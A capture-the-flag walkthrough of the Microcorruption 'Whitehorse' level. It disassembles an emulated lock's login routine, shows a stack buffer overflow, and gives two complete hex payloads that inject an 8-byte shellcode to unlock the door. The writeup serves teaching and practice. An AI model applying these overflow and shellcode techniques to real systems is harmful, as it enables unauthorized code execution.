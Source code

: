 ```yaml
---
title: "Microcorruption - Whitehorse"
date: 2018-10-28
categories: [microcorruption, reverse engineering]
tags: [microcorruption, tutorial, assembly, ctf, whitehorse, walkthrough, debug, buffer overflow, shellcode]
description: Microcorruption Whitehorse level explained in detail. We will see how to solve the level and understand the underlying concepts. 
hasComments: true
image: /images/microcorruption-levels-image.png
---
```


In this brand new level we will take advantage of buffer overflow vulnerability and create our first shellcode in order to solve the level. Keep reading to learn more! :)

When you first enter the level, as always, there is the user manual. If you were to read it, you'd notice the following useful info:
> We have updated  the lock firmware to connect with this hardware
      security module.

> This is  Software Revision  01. The firmware  has been  updated to
    connect with the new hardware security module. We have removed the
    function to unlock the door from the LockIT Pro firmware.

Sounds like the door unlocking is now being carried out by some external piece of device. As always, we **<red>do not believe in words but code</red>** so let's find out how we can break it.

The `main` function is pretty simple. 
```
4438 <main>
4438:  b012 f444      call	#0x44f4 <login>
```

Let's see what `login` is up to.
```
44f4 <login>
44f4:  3150 f0ff      add	#0xfff0, sp
44f8:  3f40 7044      mov	#0x4470 "Enter the password to continue.", r15
44fc:  b012 9645      call	#0x4596 <puts>
4500:  3f40 9044      mov	#0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504:  b012 9645      call	#0x4596 <puts>
4508:  3e40 3000      mov	#0x30, r14
450c:  0f41           mov	sp, r15
450e:  b012 8645      call	#0x4586 <getsn>
4512:  0f41           mov	sp, r15
4514:  b012 4644      call	#0x4446 <conditional_unlock_door>
4518:  0f93           tst	r15
451a:  0324           jz	#0x4522 <login+0x2e>
451c:  3f40 c544      mov	#0x44c5 "Access granted.", r15
4520:  023c           jmp	#0x4526 <login+0x32>
4522:  3f40 d544      mov	#0x44d5 "That password is not correct.", r15
4526:  b012 9645      call	#0x4596 <puts>
452a:  3150 1000      add	#0x10, sp
452e:  3041           ret
```
It's easy for us to identify what code we want to execute for the purpose of solving the level. We can see there is a call to `conditional_unlock_door` at address `0x4514`. Right at the next instruction, there is a `tst` based on `r15`'s value. Is it is zero, it jumps elsewhere, otherwise it grants access. Let us not explore `conditional_unlock_door` to see how `r15` is assigned. 

```
4446 <conditional_unlock_door>
4446:  0412           push	r4
4448:  0441           mov	sp, r4
444a:  2453           incd	r4
444c:  2183           decd	sp
444e:  c443 fcff      mov.b	#0x0, -0x4(r4)
4452:  3e40 fcff      mov	#0xfffc, r14
4456:  0e54           add	r4, r14
4458:  0e12           push	r14
445a:  0f12           push	r15
445c:  3012 7e00      push	#0x7e
4460:  b012 3245      call	#0x4532 <INT>
4464:  5f44 fcff      mov.b	-0x4(r4), r15
4468:  8f11           sxt	r15
446a:  3152           add	#0x8, sp
446c:  3441           pop	r4
446e:  3041           ret
```
We can see apparently there is nothing of interest. It calls `INT` with `0x7e` argument at instructions `0x445c` and `0x4460`. At page 9 of [LockitAll User Manual](https://microcorruption.com/manual.pdf) we can read the following:
> **INT 0x7E.**
Interface with the HSM-2. Trigger the deadbolt unlock if the password is
correct.

It unlocks the door if *HSM-2* device evaluates the password as correct. We have no access to such device. 

Apparently there is no unlock logic in the code we've been given that we could actually trick. Then, <gold>what can we do?</gold>. In fact, there is something we can do.

Moving back to `login` function, we can see there is a `getsn` call right at instruction `0x450e`. It will read up to 48 *(0x30)* bytes of input and will place them starting off at wherever `sp` is at that particular moment, as we can see at instruction `0x450c`. If we look closely, right before `getsn`, there is a `puts` call at instruction `0x4504` that prints out *"... passwords are between 8 and 16 characters."* Once again **<red>we find out that words and printed messages are not to be trusted.</red>**

Let us now actually execute the program and scrutinize its behavior inspecting where data is placed into memory. 

I suggest placing two breakpoints after `getsn` call. One at address `0x4512` and another one right at the end of `login` function, when its epilogue is about to get executed at address `0x452e`. You might think about placing a breakpoint at `0x4518`, right after `conditional_unlock_door`. You can do it and inspect what `r15` value is at that particular moment but, since we have no access to *HSM-2* device, I won't even bother about it.
 
<p align="center">
<img src="/images/microcorruption-whitehorse0.png">
</p>

We can now execute the program. When we're asked to input our data, it'll be easier for us if we input some easily recognizable characters. I inserted a bunch of ASCII printable bytes. *<green>Remember</green>* we can insert more than 16 characters.

<p align="center">
<img src="/images/microcorruption-whitehorse1.png">
</p>

When the `ip` *<blue>(Instruction Pointer)</blue>* reaches our first breakpoint at address `0x4512`, if we inspect Live Memory Dump window we can note our input is being saved starting off at address `0x3802`. We've also successfully inserted into memory all our bytes, despite the program telling us 16 bytes in the maximum length.  

<p align="center">
<img src="/images/microcorruption-whitehorse2.png">
</p>

Now that we know where our input is being saved, we can further execute the program until we hit our next breakpoint at `0x452e`.

<p align="center">
<img src="/images/microcorruption-whitehorse3.png">
</p>

It looks like right when `ret` instruction is about to get executed, `sp` *<orange>(Stack Pointer)</orange>* register points at address `0x3812` and that address is fulfilled with our input. This is, we can overwrite the return address of `login` function and hijack the execution flow of the whole program. This is called Buffer Overflow and it was already explained and used in past levels like [Cusco](/microcorruption/cusco). Please make sure you truly understand how it works and what's happening inside the memory. 

We must note that `sp` points at address `0x3812` when `ip` must be assigned the value at that particular address thanks to `ret`. 

This means that our buffer starts at `0x3802`, as we've previously seen, and the return address will be read from `0x3812`. That's a 16 *(0x10)* bytes long padding input. After the padding we can write where we want the execution flow to jump.

But now the question is: **<gold>Where do we actually want to jump?</gold>** We've seen there is no routine in the code that immediately unlocks the door. Let's move to solution section and see what can we do :)

### Solution

We've seen there is no procedure/routine we can jump to in order to unlock the door but, by the other hand, we have at our disposition a 48 bytes long input, with the first 16 being free, 17th and 18th are for return address and the rest of them are also free. 

We will now build our first **<yellow>Shellcode</yellow>**. Shellcode is a term that back in the days meant the minimum code you need in order to raise a command shell (terminal). Nowadays it is used for whatever exploit code. Shellcode is usually written in machine/assembly language. 

Now, how can we create our shellcode? We've already used [Microcorruption Assembler](https://microcorruption.com/assembler) in previous levels, such as [Reykjavik](/microcorruption/reykjavik). We do also know from previous levels that calling `INT` with `0x7f` as parameter unlocks the door. 

In case you don't remember how the syntax of these two instructions is, you have them at address `0x445c` in `conditional_unlock_door` function. So, we want to assemble *(get the respective bytes representing the machine code)* the following instructions:
```
push	#0x7f
call	#0x4532
```

<p align="center">
<img src="/images/microcorruption-whitehorse4.png">
</p>

The resulting bytes are: <yellow>30127f00b0123245</yellow>

If you count them, you'll notice they're exactly 8 bytes *(Remember each byte ranges from 00 to ff, and we are providing the input hex encoded)*. This means we can insert the payload, our shellcode, in our padding zone of our input. 

Our input will be of the following form:
<orange>16 bytes of padding/shellcode</orange><blue>ret address(2 bytes)</blue><green>30 bytes</green>

The address where we want to jump is the address of our shellcode because we want `ip` to execute it. That is, the very beginning of our input. As we've previously seen, our input is being stored at `0x3802`. **<red>Please, do not forget about endianness</red>**. 

So, the solving input (hex encoded) will be: **<orange>30127f00b01232454141414141414141</orange><blue>0238</blue>** **<yellow>(Solution 1)</yellow>**

Please notice how I added 8 bytes (8 * 41) to fulfill the padding zone. 

<p align="center">
<img src="/images/microcorruption-whitehorse5.png">
</p>

<p align="center">
<img src="/images/microcorruption-whitehorse6.png">
</p>

An alternative solution would be, for example, to keep the padding bytes and insert our shellcode after the return address. *(There are other combinations, you can try all of them and get used to shellcoding and overflowing a buffer to execute it)*

We will change the return address, so the `ip` jumps right into the shellcode. That is, `0x3802` + `0x12`*(18 in hexadecimal)* = `0x3814`

**<orange>41414141414141414141414141414141</orange><blue>1438</blue><green>30127f00b0123245</green>** **<yellow>(Solution 2)</yellow>**

<p align="center">
<img src="/images/microcorruption-whitehorse7.png">
</p>

<p align="center">
<img src="/images/microcorruption-whitehorse6.png">
</p>

### Recap

We've seen how we can take advantage of a Buffer Overflow vulnerability and change the program execution flow in order to execute our on shellcode, which is part of the payload we provide as input. We've overwritten the return address so the `ip` jumps inside the buffer and executes our shellcode. 

## More levels
* Click [here](/microcorruption/montevideo) to see next level (Montevideo).
* Click [here](/microcorruption/reykjavik) to see previous level (Reykjavik).
* Click [here](/microcorruption) to see levels index.